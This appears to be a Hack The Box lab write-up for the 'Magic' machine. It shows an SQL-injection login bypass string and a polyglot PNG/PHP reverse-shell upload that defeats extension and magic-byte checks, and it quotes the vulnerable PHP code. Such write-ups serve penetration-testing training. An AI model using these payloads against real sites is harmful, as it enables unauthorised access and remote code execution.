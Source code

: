## Magic

https://app.hackthebox.com/machines/241

### User Access

This machine has been resolved on OSCP machines: [Magic](https://github.com/b1d0ws/OSCP/tree/main/TJ%20Null's%20List/Linux%20Boxes/Magic
)

You can bypass authentication using admin as username and `' OR 1=1 -- -` as password.

Vulnerable Injection Code
```php
$stmt = $pdo->query("SELECT * FROM login WHERE username='$username' AND password='$password'");
```

Upload functions appears to have two methods of limiting the upload. First the file need to have JPG, JPEG & PNG extension and this can be bypassed using double extension.

The other method checks the magic bytes of the files, so we can just upload a reverse.php.png with PNG magic bytes inside it.

```
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r >> reverse.php.png
cat php-reverse-shell.php >> reverse.php.png
```

Vulnerable Upload Code
```php
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
if ($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg") {
	echo "<script>alert('Sorry, only JPG, JPEG & PNG files are allowed.')</script>";
	$uploadOk = 0;
}

if ($uploadOk === 1) {
	// Check if image is actually png or jpg using magic bytes
	$check = exif_imagetype($_FILES["image"]["tmp_name"]);
	if (!in_array($check, $allowed)) {
		echo "<script>alert('What are you trying to do there?')</script>";
		$uploadOk = 0;
	}
}
```
